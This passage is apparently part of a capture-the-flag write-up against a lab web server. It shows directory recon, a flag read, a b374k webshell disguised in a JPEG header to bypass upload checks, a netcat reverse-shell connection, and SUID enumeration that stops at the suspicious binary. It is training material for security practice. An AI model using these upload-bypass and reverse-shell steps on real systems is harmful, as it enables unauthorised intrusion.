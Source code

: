 recon directory with `scandir` and found interesting file on `/home/webmaster`  
```php
++++++++++| scandir /home/webmaster |++++++++++
...
  [13]=>
  string(12) "low_user.txt"     // have permission to read
  [14]=>
  string(9) "notes.txt"			// no permission to read
  [15]=>
  string(8) "user.txt"          // no permission to read
}
...
++++++++++| read low_user.txt |++++++++++
...
string(45) "shellmates{e02c5869b5dc6e57c0bc24dc8946fe94}
"
```

let's get a proper shell, to do this i need to upload `interactive webshell` and execute reverse shell and  
backconnect to my machine. for webshell i use `b374k`. insert it as base64 format to our last payload  
```bash
muwa00@ritalin:~$ head -n 1 ~/Pictures/2755892_1.jpg > img.php

muwa00@ritalin:~$ cat b374k.bin >> img.php

muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:40540.
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/tmp>whoami
www-data
```

## Exploitation & Privilege Escalation

after doing some recon and enumeration, i found interesting suid binary
```bash
/>find / -user webmaster -print 2>/dev/null
/home/webmaster
/home/webmaster/.gnupg
/home/webmaster/.lesshst
/home/webmaster/user.txt
/home/webmaster/.selected_editor
/home/webmaster/notes.txt
/home/webmaster/.profile
/home/webmaster/.php_history
/home/webmaster/.cache
/home/webmaster/.viminfo
/home/webmaster/.mysql_history
/home/webmaster/.bash_history
/home/webmaster/.bash_logout
/home/webmaster/.bashrc
/sbin/notemaker						# <--- suspicious file ?
/var/www/html
/var/www/html/contact.php
/var/www/html/post.php
/var/www/html/home.php
/var/www/html/css
/var/www/html/index.php
```